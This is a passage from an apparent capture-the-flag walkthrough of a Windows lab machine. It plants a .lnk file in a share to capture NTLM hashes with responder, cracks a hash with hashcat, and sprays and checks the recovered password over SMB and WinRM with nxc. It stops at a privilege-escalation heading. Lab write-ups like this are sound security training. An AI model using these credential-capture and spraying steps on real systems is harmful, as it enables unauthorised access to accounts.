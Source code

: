 ![image.png](image%2010.png)

## Exploitation

I am gonna put `.lnk` file in a share and wait for connection.

Use this [tool](https://github.com/xct/hashgrab) for create `.lnk` file:

And then run `responder`.

```bash
sudo responder -I tun0
```

![image.png](image%2011.png)

Now let’s crack the user’s hash.

```bash
hashcat -m 5600 anirudh.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2012.png)

Now let’s check if the password was reused:

```bash
sudo nxc smb $IP -u users -p SecureHM --continue-on-success
```

![image.png](image%2013.png)

Check shares again:

```bash
sudo nxc smb $IP -u anirudh -p SecureHM --shares
```

![image.png](image%2014.png)

Checking access:

```bash
sudo nxc winrm $IP -u anirudh -p SecureHM
```

![image.png](image%2015.png)

## Shell as anirudh

### 1st way (SeBackupPrivilege & SeRestorePrivilege)

Checking for privileges I see that our user has many privileges.

![image.png](image%2016.png)
